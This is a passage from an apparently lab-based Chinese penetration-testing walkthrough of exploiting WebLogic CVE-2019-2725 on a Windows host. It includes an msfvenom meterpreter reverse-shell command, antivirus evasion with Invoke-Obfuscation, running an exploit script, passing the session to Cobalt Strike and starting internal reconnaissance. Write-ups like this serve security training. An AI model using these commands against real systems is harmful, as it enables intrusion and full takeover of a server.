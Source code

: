 ![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "null")image-20210119143834403

发现WebLogic的版本是10.3.6.0，用Weblogic一键漏洞检测工具一把梭，该工具提供WebLogic一键poc检测，收录几乎全部weblogic历史漏洞：

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "null")image-20210119150045520

存在的漏洞还真不少。先试试CVE-2019-2725，我们在metasploit上找到了该漏洞的利用模块 `exploit/multi/misc/weblogic_deserialize_asyncresponseservice` ：

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "null")image-20210119154939002

但是该模块所携带的payload是针对unix环境的，在windows的环境自然没办法反弹回meterpreter。找遍全网，我找到了如下解决方法：去 exploit-db 下载这个exploit脚本，然后攻击者使用如下命令生成一个powershell格式的木马：

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.7 LPORT=4444 -f psh-cmd > shell.ps1
```

用著名的APT32组织海莲花常用的一个工具Invoke-Obfuscation对生成的shell.ps1做一下简单的免杀。

然后将刚下载的exploit脚本中的exploit变量替换为生成的shell.ps1脚本中的内容。然后在msfconsole中设置好监听：

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "null")image-20210119160020256

然后执行exploit脚本：

```
python3 exploit.py http://192.168.1.8:7001/_async/AsyncResponseServiceHttps
```

执行后，msfconsole成功得到目标主机的meterpreter，并且为管理员权限：

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "null")image-20210119160453015

为了方便后面的渗透，我这里也给Cobaltstrike派生了一个shell：

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "null")image-20210119170138168

内网信息收集
------

拿到了目标Web服务器的权限后，我们开始对目标主机及其所在的网络环境进行信息收集。

### 本机信息收集

```
`systeminfo    // 查看操作系统信息``echo %PROCESSOR_ARCHITECTURE%    // 查看系统体系结构`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "null")image-20210119171656935

```
ipconfig /all              // 查询本机IP段，所在域等
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "null")image-20210119171542287

